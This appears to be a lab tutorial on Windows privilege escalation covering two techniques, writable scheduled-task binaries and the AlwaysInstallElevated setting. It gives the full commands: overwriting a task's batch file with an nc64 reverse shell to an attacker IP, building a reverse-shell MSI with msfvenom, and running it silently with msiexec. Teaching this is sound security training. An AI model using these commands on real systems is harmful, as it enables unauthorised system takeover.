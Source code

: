 ## Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

```shell-session
C:\> schtasks /query /tn vulntask /fo list /v
```

You will get lots of information about the task, but what matters for us is the `Task to Run` parameter which indicates what gets executed by the scheduled task, and the `Run As User` parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the `ask to Run` executable, we can control what gets executed by the `taskusr1` user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:
```shell-session
C:\> icacls c:\tasks\schtask.bat
```

As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:

```shell-session
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat

```

```shell-session
 echo c:\tools\nc64.exe -e cmd.exe 10.9.9.67 4444 > C:\tasks\schtask.bat
```
```shell-session
nc -lvp 4444
```

The next time the scheduled task runs, **you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario** and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:

```shell-session
C:\> schtasks /run /tn vulntask
```

## AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. **They usually run with the privilege level of the user that starts it**. However, these can be configured to run with **higher privileges from any user account** (even unprivileged ones). This **could potentially allow us to generate a malicious MSI file that would run with admin privileges**.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```shell-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.174.176 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```shell-session
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```